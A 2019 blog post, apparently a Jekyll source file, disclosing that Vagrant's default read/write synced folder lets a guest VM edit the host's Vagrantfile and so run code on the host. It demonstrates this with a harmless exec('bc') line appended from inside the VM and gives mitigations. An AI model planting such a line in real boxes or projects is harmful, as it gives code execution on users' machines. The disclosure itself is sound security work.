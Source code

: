 ```yaml
---
layout: post
title: Malicious vagrant boxes
---
```


{{ page.title }}
================

<p class="meta">8 June 2019 - Mojave Desert</p>
Hey so did you know by default vagrant run's VM's in the same security context as your host operating system! Kinda wild right? So does that mean that if you tested a strange and unknown vagrant box off https://app.vagrantup.com/boxes/search you might be pwned? Absolutely!

"WTF?"

You might be asking. WTF indeed.

The issue is pretty straight forward, for some reason vagrant mounts the code directory inside the VM as read/write. Normally the VM would be running your code so this wouldn't be much of a concern however this directory also contains the Vagrantfile configuration, which of course is just a ruby script and is executed everytime you run `vagrant` on the host.

Kinda crazy right?

So here's a quick example getting execution on the host from simply editing this file within the VM.

```
host$ vagrant init
A `Vagrantfile` has been placed in this directory. You are now
ready to `vagrant up` your first virtual environment! Please read
the comments in the Vagrantfile as well as documentation on
`vagrantup.com` for more information on using Vagrant.
host$ sed -i -e '/config.vm.box =/s@.*@config.vm.box = "ubuntu/eoan64"@' Vagrantfile   # Set config.vm.box to ubuntu/eoan64
host$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Checking if box 'ubuntu/eoan64' version '20190605.0.0' is up to date...
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.
host$ vagrant ssh

**snip**

vagrant@ubuntu-eoan:~$ echo 'exec("bc")' >> /vagrant/Vagrantfile
vagrant@ubuntu-eoan:~$ logout
Connection to 127.0.0.1 closed.
host$ vagrant halt
bc 1.06
Copyright 1991-1994, 1997, 1998, 2000 Free Software Foundation, Inc.
This is free software with ABSOLUTELY NO WARRANTY.
For details type `warranty'. 
1+1
2
```

Now I've been meaning to make a post about this for some time, when I originally noticed this it was very difficult to find *any* mention of this which is a bit unfortantate. For a while I've been using the following workaround, which I admit isn't ideal.. but still works.

```
  config.vm.synced_folder ".", "/vagrant", disable: true
  config.vm.synced_folder "vagrant", "/vagrant"
```
This will move the shared folder to a subfolder named vagrant under the main directory, which includes the Vagrantfile config.


Just now though when I was writing this I was surprised to notice this warning that pops up when you run `vagrant up` the very first time on your computer (but not after that! Well specifically only the first time for each box, but.. still).

```
Vagrant is currently configured to create VirtualBox synced folders with
the `SharedFoldersEnableSymlinksCreate` option enabled. If the Vagrant
guest is not trusted, you may want to disable this option. For more
information on this option, please refer to the VirtualBox manual:

  https://www.virtualbox.org/manual/ch04.html#sharedfolders

This option can be disabled globally with an environment variable:

  VAGRANT_DISABLE_VBOXSYMLINKCREATE=1

or on a per folder basis within the Vagrantfile:

  config.vm.synced_folder '/host/path', '/guest/path', SharedFoldersEnableSymlinksCreate: false
```

So it seems like this has been added more recently and there may be a better option to prevent this issue. Let's try it.

```
host$ sed -i -e "/config.vm.box =/a\ 
config.vm.synced_folder '.\/', '\/vagrant', SharedFoldersEnableSymlinksCreate: false" Vagrantfile    # Add suggested line to config just after the config.vm.box line
host$ sed -i -e "/exec/d" Vagrantfile    # Delete exec('bc') line
host$ vagrant up --provision
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Checking if box 'ubuntu/eoan64' version '20190605.0.0' is up to date...
==> default: Clearing any previously set forwarded ports...
==> default: Clearing any previously set network interfaces...
==> default: Preparing network interfaces based on configuration...

** snip **

host$ vagrant ssh

** snip **
vagrant@ubuntu-eoan:~$ ls /vagrant/
vagrant@ubuntu-eoan:~$ sudo touch /vagrant/asdf
vagrant@ubuntu-eoan:~$ ls -lah /vagrant/
total 8.0K
drwxr-xr-x  2 root root 4.0K Jun  8 09:00 .
drwxr-xr-x 20 root root 4.0K Jun  8 08:59 ..
-rw-r--r--  1 root root    0 Jun  8 09:00 asdf
vagrant@ubuntu-eoan:~$ logout
Connection to 127.0.0.1 closed.
host$ ls -lah
total 8
drwxr-xr-x   4 jarv  wheel   128B Jun  8 02:01 .
drwxrwxrwt  15 root  wheel   480B Jun  8 02:01 ..
drwxr-xr-x   4 jarv  wheel   128B Jun  8 00:33 .vagrant
-rw-r--r--   1 jarv  wheel   3.0K Jun  8 01:52 Vagrantfile
host$ 
```

So it looks like that fixes the issue, but also doesn't seem to share the code directory.. which limit's the usefullness of vagrant I would imagine. Ideally I think the share should just mount as readonly, seems like the simplest safe solution.
